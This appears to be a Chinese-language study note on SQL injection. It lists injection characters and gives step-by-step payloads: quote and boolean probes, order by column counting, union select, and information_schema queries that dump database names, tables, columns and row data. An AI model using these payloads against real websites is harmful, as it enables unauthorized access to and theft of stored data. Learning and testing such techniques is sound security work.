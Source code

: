 # SQL 注入
## 常用SQL注入字符
```SQL
` . ' " ) ] } / \ --
```
## Firefox 黑客工具栏
- Hackbar
## 查询注入
1) 看页面URL地质是否有后台传参动作
2) 构造传参值  ?id=51' 验证输入后台是否能够解析
3) and 1=1判断页面是否正常； and 1=2 判断页面是否部分报错; or 1=1 
4) order by 5 (5可以是其他数字，找到报错和不报错的临界点，取不报错的最大值)
5) union select 1,2,3,4,5,6,7 --+ 
- --+指注释掉插入攻击语句后的所有代码
- 匹配order by 验证出来的列数
- 联合查询时，前面Id的值要用负数（-5）
6) union select 1,2,3,4,5,6,构造语句,7
- database()  当前使用的数据库名称
- user()      当前登陆数据库的用户
- @@version   当前数据库版本
- @@basedir   查看路径
7) 爆库   查看当前数据库中有哪些表
```SQL
(select group_concat(table_name) from information_schema.tables where table_schema=0xxxx)
-- table_schema 的值需要输入16进制
```
8) 爆表   找到疑似关键信息的表
9) 查询表的列
```SQL
(select group_concat(column_name) from information_schema.columns where table_schema=0xxxx and table_name=0xxxx)
-- table_schema 和 tabale_name 的值需要输入16进制
```
10) 爆数据  查询表中的数据
```SQL
(select group_concat(concat(column1, column2, '%23')) from table_name)
-- %23 是URL编码
```
